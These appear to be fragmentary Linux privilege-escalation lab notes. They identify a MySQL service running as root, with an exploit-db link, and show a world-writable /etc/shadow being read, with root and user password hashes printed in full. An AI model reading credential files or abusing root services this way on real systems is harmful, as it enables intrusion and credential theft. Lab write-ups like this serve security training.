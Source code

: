 uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

### service exploits

we can use MySQL service which is running as root

root      2061  0.0  4.7 163420 24120 ?        Sl   04:57   0:01 /usr/sbin/mysql

https://www.exploit-db.com/exploits/1518

### weak file permissions

user@debian:~/tools/mysql-udf$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow

user@debian:~/tools/mysql-udf$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
